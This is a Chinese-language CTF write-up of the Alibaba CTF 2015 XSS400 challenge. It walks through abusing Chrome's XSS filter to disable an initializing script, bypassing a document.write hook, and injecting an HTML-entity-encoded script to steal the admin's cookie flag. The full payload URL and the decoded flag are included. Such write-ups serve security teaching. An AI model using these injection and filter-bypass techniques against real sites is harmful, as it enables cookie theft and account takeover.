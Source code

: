 ```yaml
---
layout: post
title: Alibaba CTF 2015 - XSS400 WriteUP
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>

周末两天都在疗养睡眠，恰逢 AliCTF 与 0ctf 的夺旗赛，其实我都快睡到周一了，可惜下午被 R29 叫起来说阿里出了道 XSS400 分的题还没有队伍做出，另外说明一下经过朋友得知，如果此题只有一队做出来的话，才可以直接发表 WriteUP ，不然会导致其他作弊队伍抄袭 WriteUP ，所以在几小时搞定此题后，我简单记录下这道题，比较有趣：

- Flag 隐藏在管理员的 Cookie 中
- 要求在最新版 Chrome 触发
- http://1de28830f09a4b1b.alictf.com/pet.php?id=test&type=cat

<center>
<img src="http://ww3.sinaimg.cn/large/c334041bjw1eqmynsy8c2j20e707ct9a.jpg" />
</center>


    <script>
        if(!window.chrome){
            alert('\u8bf7\u4f7f\u7528\u0043\u0068\u0072\u006f\u006d\u0065\u6d4f\u89c8\u5668\u6d4f\u89c8\u672c\u9875');
            location.href = 'https://www.google.com/chrome/';
        }
    </script>
    <script src="secWrite.js"></script>
    <script>var imageData = {name: "Oreo"}</script>
    </head>
    <body>
        <div id="console"></div>
        <img id="test" src="cat.jpg" name="cat" onload="loadSucc()" onerror="loadErr()">
        <script>
            function loadSucc(){
                document.write('This is '+imageData.name)    
            }

            function loadErr(){
                document.write('Load '+imageData.name+' Fail!')    
            }

        </script>
    </body>
    </html>
    
直接忽视 if(!window.chrome) 判断浏览器，看下 secWrite.js 文件：

    document.write = function(str){
        document.getElementById('console').innerText = str;
    }

id为imgID，type为imgName，这里对两个参数进行多种测试后发现无法逃逸出去，因为当 type 值不为 cat 后 imageData.name 值就被设为空值：

    <script>var imageData = {name: ""}</script>所以考虑是否能够进行 js 的变量覆盖来对 imageData 进行 name 值的修改，这里提一个小插曲，在 IE 下是可以通过类似方法进行 js 变量覆盖的：
    <html>
    <body>
        <form id="location" href="bar">
        <script>alert(location.href)</script>
    </body>
    </html>
    
但是题目要求是在最新版的 Chrome 下执行 XSS 恶意代码，所以我想消灭开头的这段初始变量代码：

    <script>var imageData = {name: "Oreo"}</script>

因为如果我们能够通过一些技巧将开始的 imageData 消灭的话就可以通过将 URL 中的 ID 设置为 imageData ，随后修改 URL 中的 type 参数，达到控制 imageData.name 的目的。

这里利用 Chrome filter 的特性，之前 Sogili 在 Twitter 发表过的一个 Tip：使用 Chrome Filter 干掉对应的 js 代码，例如：```&a=<script>var imageData = {name: "Oreo"}</script>```会触发 Chrome 过滤器另源码中的对应代码段失效，所以我们利用这个特性就能够消灭掉初始化变量代码，从而覆盖 imageData.name，但浏览器不会重新渲染页面 DOM ，我们这里使用 /? 绕过 secWrite.js 的 hook ，从而使 d.w 重现 DOM：

[http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=](http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=)

这时会因为请求不到```/pet.php/secWrite.js```而绕过 hook，绕过 d.w 的钩子后我们继续。

> F12 输入 imageData.name , document.body.outerHTML 可以看调试结果

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg)

这个时候经过 dom 解析后源码变成了：

    <html><head></head><body data-feedly-mini="yes">Load evi1m0 Fail!</body></html>
    
我们可控的 imageData.name 也就是上面输出到页面中的 evi1m0，这时通过测试使用 HTML hex 16 将 ```<script>alert(1)</script>``` 编码，然后再进行 URL 编码即可：

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg)

    %26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B
    
所以构造拼接起来的 alert URL：

[http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E](http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E)

![http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg](http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg)

修改最终版本的 Payload 并提交给 Alibaba CTF ，于是收到的 Cookie 字段：

    cookie : flag=aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA
    
BASE64 Decode:

    echo -n "aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA" | base64 -D
    http://1de28830f09a4b1b.alictf.com/yinqubaifumei_churenceo_renshengdianfeng.php?token=77a6e3a32a7508f49857b2d04e86250
    
![http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg](http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg)